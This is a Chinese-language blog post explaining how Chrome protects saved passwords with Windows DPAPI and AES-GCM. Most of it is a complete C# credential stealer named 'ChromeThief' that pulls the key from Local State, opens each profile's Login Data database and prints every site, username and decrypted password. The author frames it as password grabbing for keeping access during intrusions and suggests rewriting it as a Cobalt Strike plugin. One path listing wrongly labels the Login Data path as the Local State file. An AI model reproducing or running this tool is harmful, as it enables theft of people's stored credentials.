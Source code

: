 ```yaml
---
layout: post
title: 渗透取证技巧--Chrome浏览器密码凭据窃取和C#实现
date: 2023-05-12
categories: [取证, windows DPAPI]

---
```


# 文前漫谈

权限维持的重要步骤，抓密码。本文通过对Windows DPAPI的基本认识和chrome密码加密机制的理解基础上，编写C#代码实现对chrome浏览器密码的解密

实际利用下，最好是通过go，c/c++这种改写或者编到cs的插件中，基于.net平台还是有点麻烦，得准备两三个版本。





# Chrome的加密过程

* 将用户保存的账户密码使用AES GCM加密
* 将AES加密密钥通过Windows DPAPI加密保存在名为Local State的文件中，文件以json格式存储。
* 将初始化向量与密文连接起来，并将它们保存在名为Login Data的文件中，文件以sqlite数据库形式存储。





##  Local State——加密密钥存放的位置

```
%USERPROFILE%\AppData\Local\Google\Chrome\User Data\Login Data
```

文件以json格式储存，encrypted_key 的值就是Windows dpapi加密过后的AES密钥

<img src="/img/image-20230628135158057.png" alt="image-20230628135158057" style="zoom:80%;" />



## Login Data——密文存放的位置

Sqlite3数据库

```
%USERPROFILE%\AppData\Local\Google\Chrome\User Data\Default\Login Data
```

数据库结构，我们需要注意的几个字段的值

```
origin_url: 起始url
action_url: form表单提交的地址
username_value  用户名字段
password_value 密码字段
```

origin_url和action_url的选择需要注意，有时候用户手动添加的账户密码没有action_url字段的值。

<img src="/img/image-20230628140800353.png" alt="image-20230628140800353" style="zoom:80%;" />



## AES-解密过程

AES-GCM解密不仅需要密钥，还需要偏移量。我们从Local Data数据库提取我们需要的字段，ciphey的值是密码AES加密后的值

<img src="/img/image-20230628143438678.png" alt="image-20230628143438678"  />

它包含了两个重要的值：

* Initialization vector （初始化向量）
* Encrypted passwords （加密后的密码）

用python代码解释这两者的位置，

```python
initialisation_vector = ciphertext[3:15]
encrypted_password = ciphertext[15:-16]
```

按照上面的流程实现代码如下



# C# 代码实现

为什么用C#？

刚开始想写个powershell的脚本调用的，但是实战装库等情况复杂。可能还是类C的实现实用

```
using System;
using System.Text;
using System.IO;
using System.Data.SQLite;
using System.Linq;
using Org.BouncyCastle.Crypto.Engines;
using Org.BouncyCastle.Crypto.Modes;
using Org.BouncyCastle.Crypto.Parameters;
using System.Security.Cryptography;


namespace ChromeThief
{
    class Program
    {
        // GLOBAL CONSTANT
        private static readonly string CHROME_PATH_LOCAL_STATE = Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.LocalApplicationData), @"Google\Chrome\User Data\Local State");
        private static readonly string CHROME_PATH = Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.LocalApplicationData), @"Google\Chrome\User Data");

        private static String DecryptPassword(byte[] encryptedPassword, byte[] iv, byte[] secretKey)
        {
            string sR = string.Empty; 
            try
            {
                GcmBlockCipher cipher = new GcmBlockCipher(new AesEngine());
                AeadParameters parameters = new AeadParameters(new KeyParameter(secretKey), 128, iv, null);

                cipher.Init(false, parameters);
                byte[] plainBytes = new byte[cipher.GetOutputSize(encryptedPassword.Length)];
                Int32 retLen = cipher.ProcessBytes(encryptedPassword, 0, encryptedPassword.Length, plainBytes, 0);
                cipher.DoFinal(plainBytes, retLen);

                sR = Encoding.UTF8.GetString(plainBytes).TrimEnd("\r\n\0".ToCharArray());
                //Console.WriteLine(sR);
                return sR;
            }
            catch (Exception e)
            {
                Console.WriteLine($"{e.Message}");
                Console.WriteLine("[ERR] Unable to decrypt, Chrome version <80 not supported. Please check.");
                return null;
            }
        }


        private static byte[] GetSecretKey()
        {
            try
            {
                // Get secretkey from chrome local state
                var localState = File.ReadAllText(CHROME_PATH_LOCAL_STATE);
                dynamic json = Newtonsoft.Json.JsonConvert.DeserializeObject(localState);
                String key = json.os_crypt.encrypted_key;
                byte[] encryptedKeyBytes = Convert.FromBase64String(key);
                //Console.WriteLine(encryptedKeyBytes);
                byte[] encryptedKey = new byte[encryptedKeyBytes.Length - 5];
                Array.Copy(encryptedKeyBytes, 5, encryptedKey, 0, encryptedKey.Length);
                byte[] secretKey = ProtectedData.Unprotect(encryptedKey, null, DataProtectionScope.LocalMachine);
                //Console.WriteLine(BitConverter.ToString(secretKey));  
                return secretKey;
            }
            catch (Exception e)
            {
                Console.WriteLine($"{e.Message}");
                Console.WriteLine("[ERR] Chrome secretkey cannot be found");
                return null;
            }
        }
        
                static void Main(string[] args)
        {
            //Console.WriteLine(CHROME_PATH_LOCAL_STATE);
            //Console.WriteLine(CHROME_PATH);
            var folders = Directory.GetDirectories(CHROME_PATH, "Profile*").Union(Directory.GetDirectories(CHROME_PATH, "Default"));
            var secretKey = GetSecretKey();
            //C: \Users\86176\AppData\Local\Google\Chrome\User Data\Default

            foreach (var folder in folders)	
            {
                //Console.WriteLine(folder);
                var chromePathLoginDb = Path.Combine(folder, "Login Data");
                string connectionString = String.Format("Data Source={0};Version=3;", chromePathLoginDb);
                var conn = new SQLiteConnection(connectionString);
                conn.Open();
                SQLiteCommand cmd = new SQLiteCommand("SELECT origin_url, username_value, password_value FROM logins", conn);
                var reader = cmd.ExecuteReader();
                while (reader.Read())
                {
                    var url = reader.GetString(0);
                    var username = reader.GetString(1);
                    var ciphertext = (byte[])reader.GetValue(2);
                    //Console.WriteLine(ciphertext);

                    if (!string.IsNullOrEmpty(url) && !string.IsNullOrEmpty(username) && ciphertext != null)
                    {
                        // Filter the initialisation vector & encrypted password from ciphertext
                        //byte[] iv = new byte[12];
                        //Array.Copy(ciphertext, 3, iv, 0, 12);
                        ////System.Array.Copy(encryptedData, 3 + iv.Length, ciphertextTag, 0, ciphertextTag.Length);
                        //byte[] encryptedPassword = new byte[ciphertext.Length - 15 - 16];
                        //Array.Copy(ciphertext, 15, encryptedPassword, 0, ciphertext.Length - 15 - 16);
                        byte[] iv = new byte[12];
                        byte[] ciphertextTag = new byte[ciphertext.Length - 3 - iv.Length];

                        System.Array.Copy(ciphertext, 3, iv, 0, iv.Length);
                        System.Array.Copy(ciphertext, 3 + iv.Length, ciphertextTag, 0, ciphertextTag.Length);
                        // Use AES algorithm to decrypt the password
                        Console.WriteLine($"URL: {url}\nUser Name: {username}");
                        var decryptedPassword = DecryptPassword(ciphertextTag, iv, secretKey);
                        Console.WriteLine($"Password: {decryptedPassword}\n");

                    }
                }
            }
        }

    }
}

```

